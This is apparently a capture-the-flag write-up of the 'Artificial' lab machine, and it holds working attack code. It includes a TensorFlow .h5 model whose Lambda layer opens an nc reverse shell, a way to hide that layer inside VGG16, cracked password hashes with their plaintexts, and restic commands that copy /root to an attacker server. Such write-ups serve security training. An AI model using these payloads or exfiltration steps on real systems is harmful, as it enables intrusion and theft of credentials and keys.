

# Artificial
```
Difficulty: Easy
Operating System: Linux  
Hints: TensorFlow RCE, Docker misuse, SQLite DB leak, local-only service  
```


#### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap Scan, Website Enumeration | Identified open ports 22 (SSH) and 80 (HTTP), with a web service for AI solutions on port 80. |
| 2 | (Web) | TensorFlow RCE (CVE-N/A) | Crafted a malicious `.h5` model with a `tf.keras.layers.Lambda` layer to execute a reverse shell. |
| 3 | app | Reverse Shell Execution | Uploaded the malicious model and triggered the exploit, gaining a shell as the `app` user. |
| 4 | app | Local File Enumeration | Found a SQLite database (`users.db`) containing a list of users and hashed passwords. |
| 5 | gael | Hash Cracking (MD5) | Extracted `gael`'s MD5 hash (`c99...f8`) and cracked it to reveal the password. |
| 6 | gael | SSH Login | Used the cracked password to log in via SSH as the `gael` user and retrieve `user.txt`. |
| 7 | gael | LinPEAS & File Enumeration | Ran `linPEAS` and discovered `gael` was in the `sysadm` group with read access to a large backup file (`backrest_backup.tar.gz`). |
| 8 | gael | Backup File Analysis & Bcrypt Cracking | Exfiltrated and extracted the backup, finding a Bcrypt hash in a config file which was then cracked to reveal a password. |
| 9 | gael | Local Port Forwarding & Service Abuse | Used SSH local port forwarding to access a local-only service on port `9898`, which was running a `rest-server` for backups. |
| 10 | root | Restic Abuse | Used `restic` to initialize a repository on our local machine, backed up the entire `/root` directory from the target, and restored it locally to access `root.txt` and SSH keys. |
| 11 | root | SSH Login (Keys) | Used the recovered SSH private key to log in as `root`, completing the attack chain. |


## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
|_http-title: Artificial - AI Solutions  
|_http-server-header: nginx/1.18.0 (Ubuntu)
```


## Foothold

The website hosted on port 80 allows user registration and provides a feature to upload `requirements.txt`, suggesting potential dependency injection.

We discovered the use of TensorFlow for model uploads. Using an RCE payload in the `.h5` model, we achieved a reverse shell.

Exploit script:
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```


#### TensorFlow Models Are Programs
TensorFlow models should be treated as code. The official [TensorFlow Security Guidelines](https://www.tensorflow.org/security) warn not to load untrusted models as models can contain executable logic, especially through features like Lambda layers.

#### The Lambda Layer
The `tf.keras.layers.Lambda` layer allows wrapping arbitrary Python expressions, which introduces the ability to run commands during model loading or inference.

#### RCE Example with Lambda
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

This code creates a `.h5` model file that executes `touch /tmp/pwned` when loaded. A reverse shell can be triggered the same way:

```python
def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x
```

#### Hiding the Malicious Layer
You can embed the Lambda layer inside a legitimate model like VGG16:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

lambdaLayer = tf.keras.layers.Lambda(exploit, name="output")
original = tf.keras.applications.vgg16.VGG16()
inp = original.input
original.layers.pop()
infected = tf.keras.models.Model(inp, lambdaLayer(original.layers[-1].output))

for layer in infected.layers:
    layer.trainable = False

infected.save("infected.h5")
```

This technique can stealthily deliver payloads through seemingly benign ML models. The risk is real—always sanitize and verify what you're loading.


Upload the model, click **View Predictions**, and receive a shell.

## User

After initial access as `app`, we found a SQLite database containing hashed user credentials:
```sql
sqlite3 users.db
sqlite> select * from user;
...
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
...
```

### Method 1 - Hash Cracking (MD5)
Extracted hash:
```
c99175974b6e192936d97224638a34f8
```

Using John:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```
Password cracked: `mattp005numbertwo`

Tried SSH login with user `gael` and the cracked password — success.

## Root

Once we logged in as `gael`, we began privilege escalation enumeration using `linPEAS`.

We noticed that `gael` is part of the `sysadm` group and has read access to a large backup file:

```bash
ls -l /var/backups
-rw-r-----  1 root sysadm 52357120 backrest_backup.tar.gz
```

We copied the file locally for analysis. After extracting, we discovered the following in a config file:

```json
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```

### Method 1 - Bcrypt Cracking
First, decode from base64:
```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```

Result:
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Use John to crack:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
Password cracked: `!@#$%^`

### Port Forwarding
We noticed a local service running on port `9898`:
```bash
ss -tuln | grep LISTEN
tcp   LISTEN 0      4096    127.0.0.1:9898   0.0.0.0:*
```

Forwarded the port:
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Accessed the service via browser at `http://localhost:9898`, logged in using the cracked credentials.

We gained access to a restricted interface allowing command execution, leading to full root shell.

---

## Restic Backup Abuse via rest-server

After gaining access to a user in the `sysadm` group, we found a usable binary: **restic**. This can be abused to perform backups of sensitive directories if we have access to rest-server.

### Step 1: Start a `rest-server` on your attacker machine (Kali)

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

```
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```

---

###  Step 2: On the target, initialize a new repo and back up `/root`

```bash
restic -r rest:http://tun0:12345/myrepo init
restic -r rest:http://tun0:12345/myrepo backup /root
```

---

### Step 3: Back on Kali, view snapshots

```bash
restic -r /tmp/restic-data/myrepo snapshots
```

```
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
905855e5  2025-06-23 05:17:15  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

---

### Step 4: Restore the snapshot

```bash
restic -r /tmp/restic-data/myrepo restore b3112b8a --target ./restore
```

Now, the entire `/root` directory is recovered under `./restore/root`.

---

### Step 5: Access the root flag

```bash
ls -al restore/root/
cat restore/root/root.txt
```

You’ll also find `.ssh` keys:

```bash
ssh -i ./restore/root/.ssh/id_rsa root@artificial.htb
```

---

## Summary

**User:** Exploited TensorFlow model deserialization to get RCE and crack SQLite DB password.  
**Root:** Used Restic backup capability with exposed `rest-server` to exfiltrate and restore `/root`, then extracted SSH key and accessed root.

---

**Pwned Artificial!!**




